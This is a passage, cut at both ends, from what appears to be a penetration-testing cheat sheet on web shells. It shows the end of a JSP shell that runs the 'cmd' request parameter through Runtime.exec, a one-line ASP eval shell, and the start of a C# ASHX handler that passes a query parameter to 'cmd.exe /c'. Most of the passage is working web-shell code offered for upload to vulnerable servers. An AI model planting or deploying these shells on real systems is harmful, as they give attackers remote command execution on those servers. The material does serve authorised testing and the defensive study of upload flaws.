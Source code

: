 ```java
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```


## .NET ASP

The basic one:

```asp
<% eval request('cmd') %>
```

Some from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP): 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.ashx

```asp
<% @ webhandler language="C#" class="AverageHandler" %>

using System;
using System.Web;
using System.Diagnostics;
using System.IO;

public class AverageHandler : IHttpHandler
{
  /* .Net requires this to be implemented */
  public bool IsReusable
  {
    get { return true; }
  }

  /* main executing code */
  public void ProcessRequest(HttpContext ctx)
  {
    Uri url = new Uri(HttpContext.Current.Request.Url.Scheme + "://" +   HttpContext.Current.Request.Url.Authority + HttpContext.Current.Request.RawUrl);
    string command = HttpUtility.ParseQueryString(url.Query).Get("cmd");

    ctx.Response.Write("<form method='GET'>Command: <input name='cmd' value='"+command+"'><input type='submit' value='Run'></form>");
    ctx.Response.Write("<hr>");
    ctx.Response.Write("<pre>");

    /* command execution and output retrieval */
    ProcessStartInfo psi = new ProcessStartInfo();
    psi.FileName = "cmd.exe";
    psi.Arguments = "/c "+command;
    psi.RedirectStandardOutput = true;
    psi.UseShellExecute = false;
    Process p = Process.Start(psi);
```